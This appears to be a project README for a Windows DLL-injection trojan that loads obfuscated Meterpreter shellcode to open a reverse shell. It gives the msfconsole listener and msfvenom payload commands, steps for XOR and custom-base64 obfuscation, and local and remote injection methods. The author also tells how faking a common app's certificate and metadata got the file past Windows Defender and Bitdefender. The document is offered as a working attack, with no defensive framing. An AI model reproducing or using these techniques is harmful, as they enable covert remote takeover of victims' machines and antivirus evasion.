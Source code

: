 # Remote Dll injector Trojan
Trojan using dll injection of a custom library that spawns a shell on a target machine, undetected by Windows defender and Bitdefener

# 💻 Code

<img align="right" src="media/a1.png" width="440" />

This malware injects a malicious library into a target process or directly creates a process and uploads the library into it, the dll contains a simple encoded base64 data that spawns a reverse shell.

### 0) Listener and payload

- First i used the classic multi handler exploit to run the payload: 
``` msfconsole -q -x "use exploit/multi/handler; set payload windows/meterpreter/reverse_tcp; set lhost XXX; set lport XXX; exploit" ```

- The payload is a simple base64 shellcode, it's reccomended to use shigata_ga_nai alternatives since its easy to detect:
``` msfvenom -p windows/meterpreter/reverse_tcp LHOST=XXX LPORT=XXXX  -e x86/shikata_ga_nai -f c  ```. 

- Once we have the shellcode we encode the binary data into Base64, try to use a custom base64_chars set instead of the standard Base64 alphabet to obfuscate more;
  
- Secondly we apply XOR encryption using a single-byte key;
  
- Then we convert it into its hexadecimal string representation and we get the final encrypted shellcode.

### 1) DLL
The malicious library contains 4 different call cases, process attach/detach, and thread create/delete, the best one is in my opinion the first one. When the library is attached to the process, it runs arbitrary code, in the sample there is a simple windows message box, in the actual dll the code decodes base64 encoded data and uploads the shellcode containing the reverse shell to memory. You can create a dll on Visual Studio by making a new project and selecting the dll template, also rememeber to build both the dll and the injector in release mode and in the same architecture.

### 2) Local Injection

The local injection takes the dynamic library which is already located into the disk (basically useless, just a sample), creates a process and injects the library into it. Here is a detailed explanation: 

- First we locate the dll and we load it into the same process that runs it; 
- Then we create a thread and execute whatever we want, for example calling a function from inside the dll or running multiple tasks;

Because our dll is executed by the main function of our process, the thread isn't mandatory, you can use it for example to call a function from the dll if it needs to run in the background or loop continuously. 

### 2.1) Remote Injection

The remote injection dumps the dynamic library into disk (might get detected tho as anything that gets written into disk is automathically scanned by the antivirus), looks for a specific process and injects the library into it. Here is a detailed explanation: 

- First of all we put the malicious dll in the same folder as the injector, we create a resource file and its header and we set the dll as a resource of the injector;
- Secondly on the injector we locate the resource file, calculate its size, upload it to memory, and lock it for access so it can be used without being moved;
- Thirdly we extract the dll from the executable and write it to disk;
- We find a process by PID, allocate memory the size of the dll path inside of it and write the path into the process;
- Then we get the base address of kernel32 dll to get the pointer of the function which will load the malicious library;
- Finally we create a thread that executes the function that loads the malicious dll;


# 🛡 Obfuscation and AV Detection 

<img align="right" src="media/av1.png" width="340" />

Both codes are undetected by Windows defender. The remote injection exe on virustotal got 10 detections, but using a simple certificate and metadata manager like Process Hacker (free an open source) i uploaded the data of a common app (in my case it was github desktop setup) and the AVs detections went from 10 to 1 in an instant, and for the first time Bitdefender didn't flag it as suspicious 😀!!! The file went from a few kilobytes to like 10mb tho so i think i'll have to work on that, maybe by embedding only the essential metadata and certificates.


<img align="left" src="media/av4.png" width="440" />
